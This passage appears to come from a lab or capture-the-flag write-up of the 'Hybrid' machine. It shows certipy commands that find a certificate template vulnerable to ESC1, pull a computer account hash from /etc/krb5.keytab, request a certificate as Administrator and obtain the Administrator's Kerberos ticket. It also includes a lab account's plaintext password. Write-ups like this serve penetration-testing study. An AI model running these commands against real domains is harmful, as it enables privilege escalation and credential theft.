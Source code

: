 And indeed it does, now we can check if any of this certificates are vulnerable to known attack vector again by using **certipy**

```shell
certipy find -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -dc-ip 10.10.142.165 -stdout -vulnerable
```

![alt text](/assets/Hybrid/Hybrid-ESC1Vuln.png)

We have that the certificate template **HybridComputers** is vulnerable to ESC1. In order to enroll we need an account that is part of the group **Domain Computers**. Since we have rooted the server **mail01** we can extract the computer hash from the file `/etc/krb5.keytab` using this [PoC](https://github.com/sosdave/KeyTabExtract)


After extracting the hash we can successfully exploit the ESC1 vulnerability by requesting the certificate as the Administrator user:

```shell
certipy req -u 'MAIL01$' -hashes <redacted>:<redacted> -dc-ip 10.10.142.165 -ca hybrid-DC01-CA -template HybridComputers -upn Administrator -key-size 4096
```

![alt text](/assets/Hybrid/Hybrid-Cert.png)

Using the certificate we can request the TGT:
```shell
certipy auth -pfx administrator.pfx -username administrator -domain hybrid.vl -dc-ip 10.10.142.165
```
![alt text](/assets/Hybrid/Hybrid-AdminTGT.png)
